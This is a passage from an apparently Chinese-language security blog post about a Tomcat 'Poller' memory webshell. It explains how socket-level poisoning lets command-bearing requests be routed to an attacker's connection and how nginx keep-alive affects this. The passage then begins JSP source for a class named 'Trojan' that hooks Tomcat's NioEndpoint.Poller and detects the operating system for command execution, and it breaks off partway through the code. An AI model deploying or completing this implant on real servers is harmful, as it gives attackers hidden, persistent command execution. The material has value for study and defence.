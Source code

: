 ![img](https://cdn.nlark.com/yuque/0/2022/png/1599979/1660054082135-604b3b4f-5789-40c1-85c8-ea5b59e3331a.png)

每次请求都在缓存加上本次通信的socket(IP+端口)，表明缓存的数据是由那个socket发起的，接着每当我们读readbuf的数据时，我们可以得到两个信息：第一，这个包存不存命令执行的口令，第二，这个包是哪个socket发出的。这样哪怕缓存的请求被用户发出，但是socket记录已经表明了谁发起的，此时自然匹配不到用户的socket。需要注意的是，毒化对象不可以是IP，因为如果遇到反向代理的情况，你毒化的可是整个nginx服务。至于什么时候需要删除毒化表中的数据，其实很简单，tomcat的监听是使用Selector做事件监听的，当有事件来时，Selector负责收集事件的类型，然后提交给业务处理，当业务处理时，程序会注销本次的事件，避免Selector反复提交相同事件。这里我们就不注销事件，让socket反复读数据，这样一旦客户端关闭，服务端sokcet在读的时候一定会报错抛出，在处理异常时，我们直接删除对应毒化表中的数据即可。

### 强依赖容器

通过图片可以看到，所有的事情都是建立在socket连接不中断的基础之上进行。但是在nginx反向代理中默认是采用端口轮询的形式进行通信，即第一次代理端口用22222，第二次就是22223...这样显然无法让socket毒化成功。所以，致命性很大。但是大部分nginx配置也都会加上keep-alive的支持。只能说有点看命的节奏。

最后附上内存马的实现

## Poller内存马

Poller内存马的逻辑还是比较简单，你只要继承tomcat本身的NioEndpoint.Poller，然后重写processKey方法即可，如果需要处理业务，就自己操作socket，如果放行业务，就直接把socket交给父类processKey实现即可。（以下实现比较easy，只能说是个demo功能罢了，仅供参考）

```yaml
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="java.nio.channels.SelectionKey" %>
<%@ page import="org.apache.tomcat.util.net.NioChannel" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="org.apache.tomcat.util.net.SocketStatus" %>
<%@ page import="java.util.regex.Pattern" %>
<%@ page import="java.util.regex.Matcher" %>
<%@ page import="java.nio.channels.SocketChannel" %>
<%@ page import="java.util.*" %>
<%!
    Set<Thread> badThread = new HashSet<>();
    String name = "";
    boolean can = true;

    public class Trojan extends NioEndpoint.Poller {

        private Set<String> map = new HashSet<>();

        private String template = "HTTP/1.1 200 OK\r\n" +
                "Server: Apache-Coyote/1.1\r\n" +
                "Content-Length: 11\r\n" +
                "Date: Fri, 05 Aug 2022 12:07:47 GMT \r\n\r\n";

        private ByteBuffer buffer = ByteBuffer.allocate(4096);

        private String type = "win";

        Trojan(NioEndpoint nioEndpoint) throws IOException {
            nioEndpoint.super();
            String property = System.getProperty("os.name");
            if(property.toLowerCase().contains("win")){
                type = "win";
            }else{
                type = "linux";
            }
        }

        public String getRequest(String request, String key) {
            Pattern compile = Pattern.compile(key, Pattern.DOTALL | Pattern.CASE_INSENSITIVE);
            Matcher matcher = compile.matcher(request);
```